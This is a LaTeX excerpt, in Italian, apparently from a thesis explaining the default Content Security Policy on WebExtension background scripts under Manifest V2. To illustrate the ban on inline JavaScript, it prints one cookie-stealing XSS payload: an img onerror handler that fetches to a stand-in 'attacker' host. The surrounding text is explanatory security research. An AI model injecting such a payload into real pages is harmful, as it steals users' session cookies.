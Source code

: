 \documentclass{sapthesis}
\newcommand{\code}[1]{\texttt{#1}}
\newcommand{\JS}{Javascript }
\newcommand{\manifest}{\code{manifest.json}}
\begin{document}
            I content script possono accedere ad un insieme ristretto di WebExtension API, perlopiù event listener,
            servizi di messaging, conversione dei locales e storage.

        \subsection{I background script e la sidebar}
        \label{sec:difese-background-sidebar}
            Sugli script di background e le UI viene applicata una CSP di default modificabile soltanto dal
            \manifest dell'estensione, i dettagli della policy differiscono tra Manifest V2 e V3. Nella
            mia ricerca ho trattato solo la versione 2 del manifest pertanto tratterò solo le specifiche
            di quest'ultima.
            La CSP di background è piu severa rispetto ai content script volta a restringere le origini
            da cui caricare codice \JS e pratiche di programmazione potenzialmente insicure, la specifica
            standard del manifest V2 è:
            \begin{lstlisting}
                "script-src 'self'; object-src 'self';"
            \end{lstlisting}
            Nel pratico la riga precedente si traduce in quattro restrizioni:
            \begin{itemize}
                \item Risorse \code{<script>} e \code{<object>} possono essere caricate solo da origini
                        locali all'estensione (ovvero file collocati nella stessa cartella). Tutte le
                        richieste che cercheranno di includere codice nella pagina proveniente da origini
                        considerate insicure verranno bloccate silenziosamente.

                \item Non è concesso evaluare stringhe come codice \JS. L'uso di funzioni come
                        \code{eval()}, \code{setTimeout()}, \code{setInterval()} e \code{Function()}
                        per eseguire il contenuto di stringhe come codice \JS viene bloccato silenziosamente.
                
                \item Non è consentito eseguire codice \JS inline. Con codice inline si intende codice
                        \JS hard-coded in elementi html, come quello contenuto nel tag \code{<script>}
                        quando non viene utilizzato per includere file script. Un esempio è l'abuso degli
                        event listener dichiarabili direttamente sui tag html per eseguire \JS malevolo:\\
                        \code{<img src="invalid" onerror=fetch("http://attacker/?" + document.cookie) >}        

                \item {} Non è consentito eseguire codice WebAssembly.
            
            \end{itemize}
\end{document}
